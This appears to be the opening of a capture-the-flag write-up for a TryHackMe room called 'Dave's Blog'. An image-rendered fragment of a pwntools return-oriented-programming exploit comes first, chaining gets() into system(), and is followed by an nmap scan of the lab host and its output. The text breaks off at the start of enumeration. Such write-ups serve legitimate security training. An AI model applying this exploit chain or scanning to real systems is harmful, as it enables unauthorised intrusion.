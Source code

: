 offset = 88 # Found with ropstar

payload = cyclic(offset)
payload += p64(0x400803) # pop r15; ret
payload += p64(0x601060) # .bss
payload += p64(0x4005b0) # gets()
payload += p64(0x400803) # pop r15; ret
payload += p64(0x601060) # .bss
payload += p64(0x400570) # system()

s = ssh(host='dave.thm', user='dave', keyfile='f3dai')
Daves Blog - "My friend Dave made his own blog! You should go check it out. The machine may take a few minutes to fully start up."

**URL:** [Dave's Blog](https://tryhackme.com/room/davesblog)

**Difficulty:** Hard

**Author:** Jammy

## Enumeration

We are given the IP 10.10.54.82. Add this to the /etc/hosts file. Let's scan the open ports with the following command:

<pre>sudo nmap -p- -A dave.thm -o Portscan</pre>

<pre>PORT     STATE  SERVICE      VERSION
22/tcp   open   ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f9:31:1f:9f:b4:a1:10:9d:a9:69:ec:d5:97:df:1a:34 (RSA)
|   256 e9:f5:b9:9e:39:33:00:d2:7f:cf:75:0f:7a:6d:1c:d3 (ECDSA)
|_  256 44:f2:51:7f:de:78:94:b2:75:2b:a8:fe:25:18:51:49 (ED25519)
80/tcp   open   http         nginx 1.14.0 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Dave's Blog
3000/tcp open   http         Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: Dave's Blog
8989/tcp closed sunwebadmins
</pre>

Let's enumerate port 80:
